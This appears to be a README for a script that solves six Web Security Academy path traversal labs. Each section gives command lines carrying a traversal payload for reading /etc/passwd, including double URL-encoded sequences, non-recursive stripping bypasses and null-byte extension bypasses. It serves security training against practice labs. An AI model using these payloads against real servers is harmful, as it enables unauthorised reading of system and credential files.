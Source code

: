 # How to run script.py

### 1. File path traversal, simple case

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "../../../etc/passwd"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "../../../etc/passwd" -p 127.0.0.1:8080`

### 2. File path traversal, traversal sequences blocked with absolute path bypass

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "/etc/passwd"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "/etc/passwd" -p 127.0.0.1:8080`

### 3. File path traversal, traversal sequences stripped non-recursively

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "....//....//....//etc/passwd"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "....//....//....//etc/passwd" -p 127.0.0.1:8080`

### 4. File path traversal, traversal sequences stripped with superfluous URL-decode

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd" -p 127.0.0.1:8080`

### 5. File path traversal, validation of start of path

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "/var/www/images/../../../etc/passwd"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "/var/www/images/../../../etc/passwd" -p 127.0.0.1:8080`

### 6. File path traversal, validation of file extension with null byte bypass

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "../../../etc/passwd%00.png"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "../../../etc/passwd%00.png" -p 127.0.0.1:8080`
